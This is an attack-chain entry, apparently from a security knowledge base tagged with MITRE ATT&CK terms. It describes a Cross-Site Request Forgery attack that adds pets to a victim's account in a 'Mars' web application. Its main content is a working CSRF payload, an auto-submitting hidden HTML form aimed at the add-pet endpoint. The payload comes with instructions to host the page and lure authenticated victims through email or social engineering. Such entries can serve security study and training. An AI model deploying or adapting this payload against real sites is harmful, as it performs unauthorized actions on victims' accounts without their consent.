

---
tags:
  - csrf
  - web
  - unauthorized-action
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-CSRF-to-Add-Pet]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:27:49.522Z'
description: >-
  A Cross-Site Request Forgery attack exploiting insufficient input validation
  in the Mars application to add pets to a victim's account without consent,
  requiring knowledge of the victim's account ID.
skill_level: intermediate
impact_level: medium
id: d28e4b83-537a-4005-9c04-b92450373e86
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# CSRF Attack to Add Unauthorized Pets to Victim Account in Mars Application

Multi-stage attack chain demonstrating a complete attack workflow targeting the Mars application's CSRF vulnerability.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | Medium |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser with developer tools

### Target Environment

- Web platform
- Mars application endpoint for adding pets (e.g., /add-pet)
- Victim must be authenticated in the application

### Initial Access Requirements

- Knowledge of victim's account ID
- Ability to host or send a malicious webpage/link to victim
- No direct credentials needed; relies on victim's active session

## Detailed Attack Procedures

### Step 1: Forge CSRF Request to Add Pet
procedure: [[procedures/Exploit-CSRF-to-Add-Pet]]

**Objective**: Trick the victim into submitting a forged request from a malicious site to add a pet to their Mars account without their knowledge.

**Instructions**: Create and host a malicious HTML page that automatically submits a form to the Mars application's add-pet endpoint using the victim's account ID. Lure the victim to visit the page while they are authenticated in Mars.

Example malicious HTML:

```html
<!DOCTYPE html>
<html>
<body>
<form id="csrf-form" action="https://mars-app.example.com/add-pet" method="POST">
    <input type="hidden" name="account_id" value="victim_account_id_here">
    <input type="hidden" name="pet_name" value="Malicious Pet">
    <input type="hidden" name="pet_type" value="Dog">
</form>
<script>
document.getElementById('csrf-form').submit();
</script>
</body>
</html>
```

Host this on an external site and send the link to the victim via email or social engineering.

**Expected Output**: The form submits silently, adding the pet to the victim's account if CSRF protections are absent.

**Success Indicators**:
- Victim's account shows the added pet upon login
- No CSRF token validation error

## Attack Chain Summary

### Key Achievements

1. Successful forgery of request from external site
2. Unauthorized modification of victim's account data
3. Demonstration of missing CSRF protections

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
